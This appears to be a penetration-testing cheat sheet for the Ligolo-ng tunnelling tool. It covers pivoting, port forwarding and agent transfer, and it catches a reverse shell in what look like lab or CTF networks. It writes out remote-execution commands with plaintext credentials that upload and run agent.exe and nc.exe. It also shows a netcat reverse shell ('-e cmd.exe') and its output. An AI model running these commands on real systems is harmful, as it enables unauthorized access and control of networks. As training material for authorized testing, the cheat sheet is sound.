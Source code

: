 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Ligolo-ng

## Pivoting

{% tabs %}
{% tab title="1. Interface Setup" %}
Create and activate a new tunnel interface for `ligolo` :

```bash
# Create the interface
sudo ip tuntap add user kali mode tun ligolo
# Activate the interface
sudo ip link set ligolo up
```

On `Ligolo-ng >= v0.6`, this can be done in a single step:

```bash
ligolo-ng » interface_create --name ligolo
INFO[0006] Creating a new "ligolo" interface...
INFO[0006] Interface created!
ligolo-ng » interface_list
┌───────────────────────────┐
│ Available tuntaps         │
├───┬──────────┬────────────┤
│ # │ TAP NAME │ DST ROUTES │
├───┼──────────┼────────────┤
│ 0 │ ligolo   │            │
└───┴──────────┴────────────┘
```
{% endtab %}

{% tab title="2. Proxy" %}
When the environment has no internet availability, e.g. CTFs, practice labs, etc.:

```bash
./proxy -selfcert
```

When there is internet available on the environment, e.g. on an actual test environment:

> _Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval._

```bash
./proxy -autocert
```
{% endtab %}

{% tab title="3. Agent" %}
From the target machine:

```bash
# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601 -ignore-cert
```
{% endtab %}

{% tab title="4. Interact" %}
asd

```bash
# List active sessions
ligolo-ng » session
# List interfaces of the target machine
[Agent : pivot@pivot-machine] >> ifconfig
```
{% endtab %}

{% tab title="5. Routes" %}
Add a route to the target network:

```bash
sudo ip route add 172.16.10.0/24 dev ligolo
```

On `Ligolo-ng (>= 0.6)` this can be done internally:

```bash
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24
INFO[3206] Route created.       
```

Finally, start the tunnel:

```bash
[Agent : pivot@pivot-machine] >> tunnel_start
```

Now, we can reach the `172.16.10.0/24` network from our Kali:

```bash
$ sudo nmap 172.16.10.0/24 -T4
```
{% endtab %}
{% endtabs %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:4444`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:4444 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 4444
listening on [any] 4444...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Transfer the binary to the target:

{% code overflow="wrap" %}
```bash
nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'
```
{% endcode %}

Connect from the target to the pivot machine (`10.10.63.147`) on the listening port (`30000`):

{% code overflow="wrap" %}
```bash
$ nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 3000 -e cmd.exe'
```
{% endcode %}

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.45.237] 46144
...
C:\Windows\system32>whoami
nt service\mssql$sqlexpress

C:\Windows\system32>hostname
MS02
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
